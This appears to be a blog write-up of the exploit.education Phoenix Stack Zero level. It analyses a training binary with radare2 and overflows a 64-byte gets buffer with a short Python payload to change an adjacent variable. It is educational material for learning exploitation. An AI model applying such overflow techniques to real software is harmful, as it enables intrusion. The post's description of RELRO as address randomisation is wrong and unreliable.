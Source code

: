 ```yaml
---
layout: post
title:  "Phoenix Stack Zero"
categories: exploit-education phoenix x86
---
```

Phoenix is a virtual machine that can be obtained from [exploit.education][exploit-education]. It provides an educational environment so that one can practice on their skills. For additional details, visit the website.

In case of reluctancy due to the risk of downloading an unknown virtual machine, Debian packages are also provided.

Stack Zero, which is the first level, introduces the legendary stack-based buffer overflow.

In order to get a glimpse of what the binary is all about, [rabin2][rabin2-docs] comes to the rescue:

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-zero
arch     x86
baddr    0x8048000
binsz    3394
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

What can be gathered from the above info are the following:
* The binary is a 32-bit Linux ELF (`arch x86`, `bintype elf`, `bits 32`, `class ELF32`, `os linux`..).
* The endianness is little (`endian little`).
* It wasn't compiled with the Stack Smashing Protector (SSP) compiler feature (`canary false`), thus allowing stack-based buffer overflow.
* It wasn't compiled with the Data Execution Prevention (DEP) or No-Execute (NX) compiler feature (`nx false`), which cannot prevent shellcode execution.
* It wasn't compiled with the RELocation Read-Only compiler feature (`relro no`), which means that the binary and all of its dependencies are not loaded into randomized locations within virtual memory each time it is executed. This feature hinders Return Oriented Programming a lot.

Considering the above information, if the binary accepts input via environment variables, arguments or STDIN, it can be exploited.

To open the binary, `r2` can be used.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-zero
> aas
{% endhighlight %}

It is not recommended to use `aaa` or `-A` as an argument when opening a binary, because it could take a really long time if that binary is big. Using radare2, one needs to know what analysis is more beneficial at every stage of reverse engineering a binary. In this particular case, `aas`, which uses binary header information to find public functions, is good enough.

{% highlight nasm %}
> afl
0x080482b4    1 17           sym._init
0x08048470    7 277  -> 112  sym.frame_dummy
0x08048520    5 49           sym.__do_global_ctors_aux
0x08048551    1 12           sym._fini
0x080483f0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   46 498  -> 594  sym..interp
0x08048320    1 62           entry0
0x08048310    1 6            sym.imp.__libc_start_main
0x08048630    3 62           loc.__GNU_EH_FRAME_HDR
0x08048688    1 41           obj.__EH_FRAME_BEGIN
0x08048360    4 49   -> 40   sym.deregister_tm_clones
0x080484b5    4 106          main
0x080482f0    1 6            sym.imp.puts
{% endhighlight %}

There are a couple options available to view the disassembly at a particular address. One that can be used is `s` to seek to that address and then use `pdf` to disassemble the current function, or `VV` to use the Visual Graph.

{% highlight nasm %}
> s main
> pdf
/ (fcn) main 106
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048354
|           0x080484b5      8d4c2404       lea ecx, [arg_4h]
|           0x080484b9      83e4f0         and esp, 0xfffffff0
|           0x080484bc      ff71fc         push dword [ecx - 4]
|           0x080484bf      55             push ebp
|           0x080484c0      89e5           mov ebp, esp
|           0x080484c2      51             push ecx
|           0x080484c3      83ec54         sub esp, 0x54
|           0x080484c6      83ec0c         sub esp, 0xc
|           0x080484c9      6860850408     push str.Welcome_to_phoenix_stack_zero__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048560 ; "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"
|           0x080484ce      e81dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484d3      83c410         add esp, 0x10
|           0x080484d6      c745f4000000.  mov dword [var_ch], 0
|           0x080484dd      83ec0c         sub esp, 0xc
|           0x080484e0      8d45b4         lea eax, [var_4ch]
|           0x080484e3      50             push eax
|           0x080484e4      e8f7fdffff     call sym.imp.gets           ; sym..interp+0x1cc
|           0x080484e9      83c410         add esp, 0x10
|           0x080484ec      8b45f4         mov eax, dword [var_ch]
|           0x080484ef      85c0           test eax, eax
|       ,=< 0x080484f1      7412           je 0x8048505
|       |   0x080484f3      83ec0c         sub esp, 0xc
|       |   0x080484f6      68ac850408     push str.Well_done__the__changeme__variable_has_been_changed ; 0x80485ac ; "Well done, the 'changeme' variable has been changed!"
|       |   0x080484fb      e8f0fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048500      83c410         add esp, 0x10
|      ,==< 0x08048503      eb10           jmp 0x8048515
|      |`-> 0x08048505      83ec0c         sub esp, 0xc
|      |    0x08048508      68e4850408     push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again ; 0x80485e4 ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"
|      |    0x0804850d      e8defdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x08048512      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048503
|      `--> 0x08048515      83ec0c         sub esp, 0xc
|           0x08048518      6a00           push 0
\           0x0804851a      e8e1fdffff     call sym.imp.exit           ; sym..interp+0x1ec
{% endhighlight %}

There are a few things that can be seen from the disassembled main function:
1. There are two local variables:
    * `var_4ch`, which is the buffer where the input from STDIN is saved at and it has a size of `0x4c-0xc=0x40` (64 bytes in decimal).
    * `var_ch`, which is a 32-bit integer.
1. There is a call to `gets` with `var_4ch` as an argument at `0x080484e4`. `gets` does not restrict the size of bytes that are to be read and is, thus, vulnerable to stack-based buffer overflow.
1. The objective is to change the value of `var_ch`, which is tested at address `0x080484ef`.

With that in mind, to exploit this the input must have a size of, at least, 65 bytes (64 is the size of the buffer and to overwrite the value of `var_ch` one more byte at minimum is needed).

Before opening the binary in debugger mode using radare2, a rarun2 profile is needed so that the input can be read from the binary. In order to do that, a file needs to be created with the following contents:

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0    # Replace `/dev/pts/0` with the output of the command `tty`.
stdin=./pattern     # Replace `./pattern` with the full path to the file that
                    # contains the input to be read from the binary.
{% endhighlight %}

One more thing that is essential is a file that contains the input. For that, python3 is going to be used.

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"AAAA")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-zero -e dbg.profile=myProfile.rr2
{% endhighlight %}

To showcase that the binary is indeed vulnerable, a breakpoint before the call to `gets` is necessary. That can be done by simply executing `db` followed by the address and then `dc` to continue until the breakpoint is hit.

{% highlight plaintext %}
> aas
> db 0x080484e4
> dc
{% endhighlight %}

Before calling `gets`, it is a good idea to check the value of `var_ch`. This can be accomplished by first checking the value of the `ebp` register, via `dr`, and then viewing the hexdump at address `ebp-0xc`, via `px/xw`.

{% highlight nasm %}
> dr
eax = 0xff8c805c
ebx = 0xf7f14000
ecx = 0xff8c7f90
edx = 0x00000000
esi = 0xff8c8134
edi = 0x00000001
esp = 0xff8c8040
ebp = 0xff8c80a8
eip = 0x080484e4
eflags = 0x00000296
oeax = 0xffffffff
> px/xw 0xff8c80a8-0xc
0xff8c809c  0x00000000                                   ....
{% endhighlight %}

To execute the next instruction by stepping over, simply use `dso`.

{% highlight nasm %}
> dso
> dr
eax = 0xff8c805c
ebx = 0xf7f14000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xff8c8134
edi = 0x00000001
esp = 0xff8c8040
ebp = 0xff8c80a8
eip = 0x080484e9
eflags = 0x00000286
oeax = 0xffffffff
> px/24xw 0xff8c8040
0xff8c8040  0xff8c805c 0x00000000 0x0000006f 0x00000010  \.......o.......
0xff8c8050  0x080482b4 0x08048551 0x00000000 0x58585858  ....Q.......XXXX
0xff8c8060  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8070  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8080  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8090  0x58585858 0x58585858 0x58585858 0x41414141  XXXXXXXXXXXXAAAA
> px/xw 0xff8c80a8-0xc
0xff8c809c  0x41414141                                   AAAA
{% endhighlight %}

As shown above, the value of `var_ch` is indeed overwritten.

{% highlight plaintext %}
> dc
Well done, the 'changeme' variable has been changed!
{% endhighlight %}

## Conclusion
The binary was not compiled with the necessary features that would otherwise prevent stack-based buffer overflows and contains a call to `gets`, which does not account the size of bytes to be read from STDIN. As such, one needs to account the size of the buffer and simply input more bytes than it can actually hold so that the stack overflows.

[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/
